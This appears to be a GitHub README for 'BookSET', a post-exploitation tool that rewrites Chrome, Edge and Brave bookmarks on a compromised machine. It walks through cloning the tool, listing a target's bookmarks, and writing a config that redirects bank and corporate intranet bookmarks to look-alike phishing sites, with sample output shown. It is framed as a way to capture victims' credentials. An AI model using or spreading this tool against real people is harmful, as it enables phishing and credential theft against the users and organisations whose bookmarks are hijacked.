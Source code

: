 # BookSET - Bookmarks Social Engineer Tool

A simple script for Post-Exploitation - by @_mrpack

This script was generated to modify all URLs in BookMarks from some web browsers like Google Chrome, Brave and Edge.

This script can be used to capture some credentials with Phishing sites or just redirect the "victim" to your EvilServer.


# ¿How it works? :

Let's clone the repository and install some libraries:

```bash
git clone https://github.com/edwardosorio/BookSET.git

cd BookSET

pip install -r requirements.txt

```
that's it :D !!


## [+] Help ! :

if you need to know the parameters from the script, pls type:

```bash
python bookSET.py -h


 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

usage: bookSET.py [-h] [-recon] [-replace]

Get and Replace all Urls from Google Chrome BookMarks

optional arguments:
  -h, --help  show this help message and exit
  -recon      Get all URLs Bookmarks
  -replace    Replace URLs Bookmarks


```


## [+] Recon Mode :

If you want to know what BookMarks the target has, then we just need to execute the following command line:

```bash
python bookSET.py -recon

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

[+] Getting Urls from BookMarks:
 
 - https://www.facebook.com
 - https://www.bank.com
 - https://www.twitter.com
 - https://www.instagram.com
 - https://intranet.companie.org

[+] Total of BookMarks identified : [5]

```

## [+] bookmarks.json file content :

Now that we know all the BookMarks that the target has, we can check all the URLs and just make a few "fake websites"  for some URLs that we want... 

Once we make the phishing sites, we can configure our "bookmarks.json" file, the content of "bookmarks.json" it's easy to understand, and the "current_url" it's the URL that we want to change and replace it with "new_url":

```bash

{
    "bookmark_bar": [
      {
        "current_url": "https://www.bank.com/",
        "new_url": "https://www.fakebank.com/"
      },
      {
        "current_url": "https://intranet.companie.org/",
        "new_url": "https://intranet.fakecompanie.org/"
      }
    ]
  }
  
  ```

## [+] Replace Mode :

Now that we configured the bookmarks.json file we can execute again our script with -replace parameter:

```bash
python bookSET.py -replace

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

[+] URLs modified:

     [-] https://www.fakebank.com/
     [-] https://intranet.fakecompanie.org/

[+] Total of BookMarks replaced : [2]
Chrome it's running !!

[+] Chrome was Closed !
...
...
...
...
[+] Opening Chrome !

[+] Done !!

```
once the script finished we can check all the changes.

![](https://secthings.io/assets/images/bookset/fakebank.png) 

![](https://secthings.io/assets/images/bookset/intranetcompanie.png)



NOTE: This script was tested for the following Web Browsers:

- Google Chrome
- Edge
- Brave

And tested for the following O.S:

- windows
- linux
- mac

You just need to change the Browser Path

